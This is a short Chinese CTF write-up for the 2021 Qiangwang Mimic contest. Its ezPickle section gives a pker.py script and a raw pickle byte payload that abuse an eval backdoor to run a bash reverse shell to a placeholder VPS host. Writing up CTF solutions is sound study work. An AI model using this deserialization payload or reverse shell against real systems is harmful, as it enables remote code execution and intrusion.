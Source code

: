 ```yaml
---
title: "2021强网拟态 Wp"
slug: "qwnt2021-wp"
description: "没啥可描述的，就是一份普普通通的wp~"
date: 2021-10-26T20:17:24+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


> web有3个都是有了包浆的原题……还有一点脑洞题，反正奇奇怪怪的
>
> 属于是被师傅们带飞了，所以详细的wp还是自己写一写，认真地复现一下

## zerocalc

![image-20211024031549328](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024031549328.png)

emmmmmm 说实话一开始没有出 因为没悟出来它这是个什么逻辑2333333

## ezPickle

```
# 用pker.py生成payload
notadmin=GLOBAL('config','notadmin')
notadmin["admin"]="yes"
exec=GLOBAL('config','backdoor')
payload='''__import__('subprocess').call(\"echo -e '#!/bin/bash\\nsh -i >& /dev/tcp/you_vps_ip/port 0>&1'>x && bash x && rm -rf x\",shell=True)'''
exec(payload)
return
```

```python
>>> data=b'cconfig\nnotadmin\np0\n0g0\nS\'admin\'\nS\'yes\'\nscconfig\nbackdoor\np2\n0S\'__import__(\\\'subprocess\\\').call("echo -e \\\'#!/bin/bash\\\\nsh -i >& /dev/tcp/you_vps_ip/port 0>&1\\\'>x && bash x && rm -rf x",shell=True)\'\np3\n0g2\n(g3\ntR.'
>>> print(base64.b64encode(data))
b'xxxxxxxxxx'
```

![image-20211023215957693](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211023215957693.png)

没什么好说的，基础的pickle题，是2021巅峰极客what_pickle的阉割版（构造的思路几乎一样 但是简单很多），几乎一样的题目还有 [SUCTF 2019]Guess Game

限制的点在于<u>[只允许引入题目自设模块&限制模块中含下划线](https://amiaaaz.github.io/2021/08/12/python-unserialize-notes-01-python/#--%E4%BB%85%E5%8F%AF%E4%BB%A5%E5%BC%95%E5%85%A5%E9%A2%98%E7%9B%AE%E4%B8%AD%E8%87%AA%E8%AE%BE%E7%9A%84%E6%A8%A1%E5%9D%97%E6%A8%A1%E5%9D%97%E5%90%8D%E4%B8%8D%E8%83%BD%E6%9C%89__%E7%AC%A6)</u>，那就直接变量覆盖，然后利用给出的`eval()`弹shell就好了
